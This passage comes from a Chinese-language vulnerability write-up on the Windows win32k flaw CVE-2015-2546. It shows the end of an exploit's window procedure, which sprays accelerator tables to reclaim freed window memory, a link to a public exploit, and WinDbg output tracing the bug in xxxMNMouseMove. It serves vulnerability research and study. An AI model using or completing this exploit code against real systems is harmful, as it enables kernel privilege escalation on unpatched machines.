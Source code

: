 ```
            }
 
            // 使用加速表对象占用窗口对象的空间
            for (DWORD i = 0; i < ACCELERATOR_NUMBER; i++)
            {
                lpAccel = (LPACCEL)malloc(sizeof(ACCEL) * 0x5);
                if (lpAccel) CreateAcceleratorTable(lpAccel, 0x5);
            }
        }
         
        return 0;
    }
    else if (uMsg == 0x1E5)
    {
        return 0x10;
    }
 
    return CallWindowProcA(g_lpPrevWndFunc, hWnd, uMsg, wParam, lParam);
}
```  
#   
#   
```
```  
  
  
参考下面链接的师傅的代码写的exp，链接在：  
https://github.com/LegendSaber/exp/blob/master/exp/CVE-2015-2546.cpp  
。  
  
  
在xxxMNMouseMove函数中下断点，运行exp，当运行到发送0x1F0的消息时，此时可以看到#32768窗口对象的tagPOPUPMENU中偏移0xC的spwndNextPopup为0。  
```
1: kd> p
win32k!xxxMNMouseMove+0x141:
96809530 57              push    edi
1: kd> p
win32k!xxxMNMouseMove+0x142:
96809531 57              push    edi
1: kd> p
win32k!xxxMNMouseMove+0x143:
96809532 68f0010000      push    1F0h
1: kd> p
win32k!xxxMNMouseMove+0x148:
96809537 56              push    esi
1: kd> p
win32k!xxxMNMouseMove+0x149:
96809538 e86000f8ff      call    win32k!xxxSendMessage (9678959d)
1: kd> r esi
esi=fea11b28
1: kd> dd fea11b28 + B0
fea11bd8  fd5ee588 00000000 0001000d 0c000018
fea11be8  00000000 c159c159 00000000 88427a60
1: kd> dt tagPOPUPMENU fd5ee588
win32k!tagPOPUPMENU
   +0x000 flags            : 0x00000000 
   +0x004 spwndNotify      : (null) 
   +0x008 spwndPopupMenu   : 0xfea11b28 tagWND
   +0x00c spwndNextPopup   : (null) 
   +0x010 spwndPrevPopup   : (null) 
   +0x014 spmenu           : (null) 
   +0x018 spmenuAlternate  : (null) 
   +0x01c spwndActivePopup : (null) 
   +0x020 ppopupmenuRoot   : (null) 
   +0x024 ppmDelayedFree   : (null) 
```
